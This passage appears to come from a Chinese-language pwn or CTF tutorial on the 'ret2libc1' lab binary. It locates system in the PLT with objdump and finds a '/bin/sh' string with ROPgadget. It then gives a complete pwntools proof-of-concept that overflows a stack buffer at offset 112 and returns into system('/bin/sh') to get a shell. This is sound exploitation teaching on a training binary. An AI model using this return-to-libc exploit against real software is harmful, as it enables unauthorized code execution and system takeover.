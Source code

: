![image-20241217165510520](pwn二进制漏洞/image-20241217165510520.png)	

```
看看plt表中是否有system函数。
objdump -d -j .plt ./ret2libc1 |grep system
```

![image-20241217165732858](pwn二进制漏洞/image-20241217165732858.png)	

```
再查看是否有程序中是否有/bin/sh字符串。
ROPgadget --binary ./ret2libc1 --string "/bin/sh"
```

![image-20241217165910808](pwn二进制漏洞/image-20241217165910808.png)	

```python
于是即可写poc.py验证漏洞了。
from pwn import *

# 设置目标程序的架构和操作系统
context(arch="i386", os="linux")

# 启动目标程序
p = process("./ret2libc1")

# 加载目标程序的 ELF 文件
e = ELF("./ret2libc1")

# 获取 system@plt 的地址
system_addr = e.plt["system"]

# 搜索 "/bin/sh" 字符串的地址
bin_sh_addr = next(e.search(b"/bin/sh"))

# 构造 Payload
offset = 112  # 确定缓冲区溢出的偏移量
payload = (
    offset * b'A' +        # 填充缓冲区
    p32(system_addr) +     # 返回地址覆盖为 system 函数地址
    p32(0) +               # system 的返回地址（任意值，这里填 0）
    p32(bin_sh_addr)       # system 的参数，指向 "/bin/sh" 的地址
)

# 发送 Payload
p.sendline(payload)

# 进入交互模式，获得 Shell
p.interactive()
```